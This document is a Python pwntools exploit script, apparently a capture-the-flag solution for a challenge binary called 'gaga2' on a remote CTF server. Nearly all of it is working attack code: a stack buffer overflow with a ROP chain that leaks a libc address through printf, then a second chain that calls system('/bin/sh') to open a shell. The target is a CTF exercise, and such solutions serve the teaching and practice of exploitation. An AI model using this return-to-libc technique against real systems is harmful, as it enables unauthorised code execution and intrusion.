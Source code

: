 ```py
#!/usr/bin/env python3

from pwn import *

HOST = "challs.actf.co"
PORT = 31302

exe = ELF("./gaga2_patched")
libc = ELF("./libc.so.6")

context.binary = exe
context.log_level = "debug"
context.terminal = ["kitty"]

gdbscript = """
"""


def conn(*a, **kw):
    if args.LOCAL:
        return process([exe.path], **kw)
    elif args.GDB:
        return gdb.debug([exe.path], gdbscript=gdbscript, **kw)
    else:
        return remote(HOST, PORT, **kw)


io = conn(level="debug")

# Add functions below here, if needed


def main():
    global io

    # good luck pwning :)
    pop_rdi = 0x00000000004012B3
    ret = 0x000000000040101A

    rop = ROP(exe)
    rop.raw(ret)  # ret (stack alignment)
    rop.raw(pop_rdi)  # pop rdi
    rop.raw(exe.got.__libc_start_main)
    rop.raw(exe.symbols.printf)
    rop.raw(ret)  # ret (stack alignment)
    rop.main()

    payload = b"A" * 64 + b"B" * 8 + rop.chain()
    io.sendlineafter(b"Your input: ", payload)
    libc.address = (
        u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
        - libc.symbols.__libc_start_main
    )
    log.success(f"libc @ {hex(libc.address)}")

    rop = ROP(exe)
    rop.raw(ret)  # ret (stack alignment)
    rop.raw(pop_rdi)  # pop rdi
    rop.raw(next(libc.search(b"/bin/sh\x00")))  # /bin/sh\x00 pointer
    rop.raw(libc.symbols.system)
    payload = b"A" * 64 + b"B" * 8 + rop.chain()
    io.sendlineafter(b"Your input: ", payload)

```